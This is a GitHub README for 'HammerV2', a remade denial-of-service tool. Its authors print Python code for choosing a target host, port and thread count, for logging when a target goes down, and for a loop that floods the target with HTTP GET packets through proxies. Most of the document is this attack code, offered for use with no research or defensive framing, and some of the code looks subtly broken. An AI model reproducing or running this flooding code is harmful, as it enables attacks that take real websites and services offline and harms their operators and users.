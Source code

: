 # HammerV2
- HammerV2 is some DDoS tool that has been remaked by iFanpS & NumeX

Me & NumeX remake this DDoS tool because the old version has been malfunction or cannot be use.

Me implement some code in here like new argument and on attack line.

# New Argument
- Added logs when the host u attack down.
```Python
elif requests.head(f"http://{host}").status_code != 200:
                with open("Down.txt","a") as dw:
                    dw.write(f"{host}:{port} has been downed by this tool on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
```
- I am adding new argument (-l | logs) logs method is used for know when are u ddosing.
```Python
def get_parameters():
    global host
    global port
    global thr
    global item
    times = time.ctime(time.time()).split()
    optp = OptionParser(add_help_option=False,epilog="Hammers")
    optp.add_option("-l","--logs",dest="logs",help="save attack logs -l yes")
    optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
    optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
    optp.add_option("-t","--thread",type="int",dest="turbo",help="default 1000 thread")
    optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
    opts, args = optp.parse_args()
    if opts.help:
        usage()
    if opts.host is not None:
        host = opts.host
    else:
        usage()
    if opts.port is None:
        port = 80
    else:
        port = opts.port
    if opts.logs == 'yes':
        with open('logs_hammerv2.txt','a') as lg:
            lg.write(f"{host}:{port} is attacked on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
            lg.close()
    else:
        pass
    if opts.turbo is None:
        thr = 1000
    else:
        thr = opts.turbo
```

# Attack Method
The old hammer attack method u can find on github.

But here i remake the attack method to fast attack.
```Python
def down_it():
    try:
        data = """Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: keep-alive"""
        while True:
            packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((prox[0],int(prox[1])))
            if s.sendto( packet, (host, int(port))):
                s.shutdown(1)
                print ("\033[94m <--packet sent to {0}:{1}! hammering--> \033[0m".format(host, int(port)))
            else:
                s.shutdown(1)
                print("\033[91m shut<->down\033[0m")
            time.sleep(.1)
    except socket.error as e:
        print("\033[91m Socket error, Error {0}\033[0m".format(e))
        time.sleep(2)
    except KeyboardInterrupt:
        exit()
```

# Credit
- NumexX & iFanpS
